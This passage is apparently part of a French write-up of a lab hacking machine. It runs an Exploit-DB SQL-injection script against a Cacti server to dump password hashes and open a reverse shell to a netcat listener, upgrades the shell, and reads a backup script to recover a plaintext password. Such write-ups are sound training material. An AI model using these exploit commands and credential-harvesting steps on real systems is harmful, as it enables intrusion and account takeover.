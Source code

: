 Il nous faut un mot de passe, si on essaye avec ``admin:BestAdministrator@2020!`` ca marche.
L'exploit obtient une RCE grace à une SQLi:
```
┌──(kali㉿kali)-[~/Desktop]
└─$ python3 /usr/share/exploitdb/exploits/php/webapps/49810.py -t http://cacti-admin.monitors.htb -u admin -p BestAdministrator@2020! --lhost 10.10.14.5 --lport 4444 
[+] Connecting to the server...
[+] Retrieving CSRF token...
[+] Got CSRF token: sid:cd05039fb335b6d5cbf9fcecc77db39a5d777669,1694259967
[+] Trying to log in...
[+] Successfully logged in!

[+] SQL Injection:
"name","hex"
"",""
"admin","$2y$10$TycpbAes3hYvzsbRxUEbc.dTqT0MdgVipJNBYu8b7rUlmB8zn8JwK"
"guest","43e9a4ab75570f5b"

[+] Check your nc listener!
```
Le revshell a bien fonctionné et notre netcat nous montre qu'on est connecté à ``www-data``:
```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.238] 33632
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
A ce stade là, j'utilise toujours cette commande pour upgrade mon shell (même que dans ce cas là c'est probablement inutile):
```
$ python3 -c 'import pty; pty.spawn("/bin/sh")'
```
## www-data -> marcus
Regardons les références à l'utilisateur ``marcus``:
```
$ grep 'marcus' /etc -R 2>/dev/null
grep 'marcus' /etc -R 2>/dev/null
/etc/group-:marcus:x:1000:
/etc/subgid:marcus:165536:65536
/etc/group:marcus:x:1000:
/etc/passwd:marcus:x:1000:1000:Marcus Haynes:/home/marcus:/bin/bash
/etc/systemd/system/cacti-backup.service:ExecStart=/home/marcus/.backup/backup.sh
/etc/subuid:marcus:165536:65536
/etc/passwd-:marcus:x:1000:1000:Marcus Haynes:/home/marcus:/bin/bash

$ cat /home/marcus/.backup/backup.sh
cat /home/marcus/.backup/backup.sh                                                                                                                  
#!/bin/bash                                                                                                                                         
                                                                                                                                                    
backup_name="cacti_backup"                                                                                                                          
config_pass="VerticalEdge2020"

zip /tmp/${backup_name}.zip /usr/share/cacti/cacti/*
sshpass -p "${config_pass}" scp /tmp/${backup_name} 192.168.1.14:/opt/backup_collection/${backup_name}.zip
rm /tmp/${backup_name}.zip
```
On obtient alors un nouveau mot de passe ``VerticalEdge2020``.